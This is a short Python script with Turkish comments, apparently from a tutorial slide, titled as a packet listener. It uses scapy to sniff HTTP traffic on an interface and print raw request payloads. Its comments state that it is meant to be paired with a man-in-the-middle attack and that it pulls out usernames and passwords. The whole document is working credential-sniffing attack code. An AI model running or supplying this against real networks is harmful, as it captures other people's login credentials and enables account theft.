

# Paket Dinleyici
#Bu script  MITM ile kullanılmalıdır.
import scapy.all as scapy
from scapy_http import http

def listen_packets(interface):
    scapy.sniff(iface=interface,store=False,prn=analyze_packets)
    #prn = callback function
def analyze_packets(packet):
    #packet.show()
    if packet.haslayer(http.HTTPRequest): #Paket Kontrolü
        if packet.haslayer(scapy.Raw): #Katman Filtreleme
            print(packet[scapy.Raw].load) ##Kullanıcı adı ve şifre kısmını çektik.

listen_packets("eth0")